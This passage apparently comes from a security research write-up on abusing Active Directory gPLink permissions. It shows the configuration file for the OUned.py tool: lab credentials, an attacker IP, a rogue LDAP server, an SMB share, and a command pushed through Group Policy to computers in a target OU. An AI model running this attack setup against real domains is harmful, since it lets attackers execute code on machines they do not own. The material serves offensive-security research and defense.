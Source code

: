 We now have all the elements at our disposal to execute the exploit and compromise the computer objects of the **SERVERS** OU. **OUned.py** will take its parameters from a configuration file gathering various necessary information from the attack prerequisites.

_# On attacker machine_

```ini
$ cat config.ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=SERVERS

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\output.txt

# The kind of objects targeted ("computer" or "user")
target_type=computer


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller 
ldap_username=qroland
ldap_password=Password1!

# The ID of a GPO (GPO can be empty, it only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=0V6rOKK2MFP1%% f%%nP7:XGWdH(_2Wqh,=`_,d)%%^0dsjD%%xEga`%%w!GhUMC$fa>W\6nRwXnGZuLM?86a+0idQ^Y;TRqGV?]>Lma.+&C,SA*<.Uo<mia7 F=p

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=embedded

share_name=synacktiv
```
